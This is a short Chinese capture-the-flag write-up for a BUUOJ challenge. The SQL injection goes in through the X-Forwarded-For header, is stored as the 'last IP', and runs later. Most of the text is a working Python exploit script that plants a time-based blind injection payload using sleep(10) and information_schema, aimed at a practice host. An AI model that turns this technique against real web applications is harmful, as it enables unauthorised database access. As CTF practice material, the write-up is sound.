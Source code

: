 

这题虽然是sql注入,但比较操蛋的是,sql注入的是last ip

因为这个加上自己的懒惰让我搞了8-9个小时,因小失大/fad

题目提示会收集信息,能收集的大概也就是ip地址

于是找到x-forward-for http注入,虽然说的轻松,但是我完全找了好久还加上了wp的帮助

emmmm直接扔脚本

```python
import requests
import string
import random
import time
import sys
def rand_str(length=8):
    return ''.join(random.sample(string.ascii_letters + string.digits, length))

ii=0
def curl_url(sql):
    global ii
    headers={
        "Host":"node3.buuoj.cn:28645",
        "Cache-Control":"max-age=0",
        "X-Forwarded-For":"",
        "Upgrade-Insecure-Requests":"1",
        "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36",
        "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3",
        "Accept-Language":"zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7",
        "Connection":"close"
    }
    cookies={"track_uuid":"1e3b12a4-60f8-4778-a0b7-%s;" % rand_str()}
    #1'+if(ascii(substr(hex((select GROUP_CONCAT(table_name) FROM information_schema.tables WHERE TABLE_SCHEMA=database())),1,1))>0,sleep(10),0)+'13
    # headers["X-Forwarded-For"]="1'+if("+sql+",sleep(10),0)+'"+str(ii)
    url="http://node3.buuoj.cn:28841?url=http://127.0.0.1"
    #清空
    while True:
        headers["X-Forwarded-For"]="clear"+str(ii)
        try:
            res= requests.get(url,headers=headers,cookies=cookies,timeout=3)
        except :
            pass
        if "Last Ip: clear" in res.text:
            break
        ii+=1
    #压入
    headers["X-Forwarded-For"]="1'+if("+sql+",sleep(10),0)+'"+str(ii)
    res= requests.get(url,headers=headers,cookies=cookies,timeout=3)
    #执行
    while True:
        ii+=1
        headers["X-Forwarded-For"]="clear"+str(ii)

        try:
            res= requests.get(url,headers=headers,cookies=cookies,timeout=3)
        except :
            return 1
        
        if sql not in res.text:
            curl_url(sql)
        return 0
```